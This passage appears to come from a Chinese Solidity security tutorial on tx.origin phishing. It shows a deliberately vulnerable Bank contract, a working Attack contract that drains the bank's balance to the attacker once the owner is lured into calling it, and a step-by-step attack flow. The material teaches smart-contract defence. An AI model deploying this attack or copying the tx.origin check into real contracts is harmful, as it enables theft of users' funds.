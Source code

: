 ```solidity
contract Bank {
    address public owner;//记录合约的拥有者

    //在创建合约时给 owner 变量赋值
    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        //检查消息来源 ！！！ 可能owner会被诱导调用该函数，有钓鱼风险！
        require(tx.origin == owner, "Not owner");
        //转账ETH
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```



### 攻击合约

然后是攻击合约，它的攻击逻辑非常简单，就是构造出一个`attack()`函数进行钓鱼，将银行合约拥有者的余额转账给黑客。它有`2`个状态变量`hacker`和`bank`，分别用来记录黑客地址和要攻击的银行合约地址。

它包含`2`个函数：

- 构造函数:初始化`bank`合约地址.
- `attack()`：攻击函数，该函数需要银行合约的`owner`地址调用，`owner`调用攻击合约，攻击合约再调用银行合约的`transfer()`函数，确认`tx.origin == owner`后，将银行合约内的余额全部转移到黑客地址中。

```solidity
contract Attack {
    // 受益者地址
    address payable public hacker;
    // Bank合约地址
    Bank bank;

    constructor(Bank _bank) {
        //强制将address类型的_bank转换为Bank类型
        bank = Bank(_bank);
        //将受益者地址赋值为部署者地址
        hacker = payable(msg.sender);
    }

    function attack() public {
        //诱导bank合约的owner调用，于是bank合约内的余额就全部转移到黑客地址中
        bank.transfer(hacker, address(bank).balance);
    }
}
```

> [!TIP]
>
> `tx.origin` 的使用引入了潜在的钓鱼攻击风险。假设攻击者部署了一个恶意合约，并诱导 `Bank` 合约的 `owner` 调用该恶意合约的某个函数。在恶意合约中，它再间接调用 `Bank` 合约的 `transfer` 函数。由于 `tx.origin` 是 `owner` 的地址，因此权限检查会通过，攻击者可以将 `Bank` 合约中的资金转移到任意地址。
>
> ### 攻击流程示例：
>
> 1. 攻击者部署恶意合约 `Attack`，并诱导 `Bank` 合约的所有者调用 `Attack` 合约。
> 2. `Attack` 合约调用 `Bank` 合约的 `transfer` 函数，并成功通过权限检查（因为 `tx.origin == owner`）。
> 3. `Bank` 合约的资金被转移到攻击者控制的地址。
